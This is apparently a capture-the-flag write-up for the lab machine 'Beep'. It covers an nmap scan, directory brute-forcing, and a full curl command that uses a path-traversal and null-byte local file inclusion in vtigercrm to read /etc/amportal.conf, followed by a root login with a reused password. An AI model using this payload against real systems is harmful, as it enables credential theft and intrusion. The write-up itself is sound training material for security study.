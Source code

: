# **Beep**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/709477fe-6646-4d5a-8197-8599f6e2442d)
## **Difficulty = Easy**

***

Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Mon Nov 27 18:50:10 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.129.229.183
Warning: 10.129.229.183 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.229.183
Host is up (0.15s latency).
Not shown: 65350 closed tcp ports (conn-refused), 169 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.129.229.183/
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            854/udp   status
|_  100024  1            857/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-11-27T17:56:22+00:00; +4s from scanner time.
857/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: F3337C71F21F2D6F478E118940F48988
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 3s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 19:01:36 2023 -- 1 IP address (1 host up) scanned in 686.31 seconds
```

We couldn't access most of the `HTTP/HTTPS` ports with our browser so i decided to use `curl`


![](https://i.imgur.com/98qlIob.png)



Since we know that we can access port 443 with `curl`, let go ahead and run directory bruteforce



![](https://i.imgur.com/OH1WTVz.png)


Since nothing here, i decided to check out a public exploit written in perl and i found [this](https://www.exploit-db.com/exploits/37637), The script did not work, but reading the script, i saw the LFI endpoint and decided to use `curl` again

```bash
curl -vv "https://10.129.68.32//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" -k
```

Reading the output i found out some usernames like `asteriskuser`, `astrisk` but nothing seem to work, so i decided to try out root with the `FOP password`

![](https://i.imgur.com/8EjB9hn.png)


Hell yeah, we got shell as user `root`


![](https://i.imgur.com/icayuUG.png)

Have fun 🥇

